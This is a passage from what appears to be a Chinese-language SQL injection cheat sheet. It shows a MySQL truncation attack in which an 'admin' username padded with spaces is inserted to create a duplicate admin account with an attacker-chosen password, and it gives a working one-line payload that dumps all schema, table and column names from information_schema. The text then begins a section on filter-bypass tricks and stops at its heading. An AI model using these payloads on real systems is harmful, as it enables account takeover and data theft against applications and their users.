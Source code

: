 ```mysql
+----------+-----------+
1 row in set (0.00 sec)
```

**尝试查询包含有空格的`admin`数据，发现空格被截断，查到`admin`的数据**

```mysql
mysql> select * from users where username = 'admin           ';
+----------+-----------+
| username | password  |
+----------+-----------+
| admin    | rand_pass |
+----------+-----------+
1 row in set (0.00 sec)
```

**接着尝试插入`admin`后面包含有空格的账户，使得前25个字符只包含有`admin`与空格**

```mysql
mysql> INSERT INTO users(username,password) VALUES ('admin                       1', '123456');
Query OK, 1 row affected (0.001 sec)

mysql> select * from users;
+---------------------------+-----------+
| username                  | password  |
+---------------------------+-----------+
| admin                     | rand_pass |
| admin                     | 123456    |
+---------------------------+-----------+
2 rows in set (0.00 sec)


mysql> select * from users where username = 'admin' and password = '123456';
+---------------------------+----------+
| username                  | password |
+---------------------------+----------+
| admin                     | 123456   |
+---------------------------+----------+
1 row in set (0.00 sec)
```

**可以发现我们成功查找到`username=admin`的账户，后面不需要为 1 ，只要用空格填充前面的字符直到满足 25 个字符**

**`INSERT INTO users(username,password) VALUES ('admin                       x', 'hasaki');`**

#### 一次性注入出全部结构

**`(SELECT (@) FROM (SELECT(@:=0x00),(SELECT (@) FROM (information_schema.columns) WHERE (table_schema>=@) AND (@)IN (@:=CONCAT(@,0x0a,' [ ',table_schema,' ] >',table_name,' > ',column_name))))x)`**

**如果可以回显，可以用这个payload一次性全部注入出表结构**

### 绕过技巧

#### 空格替代
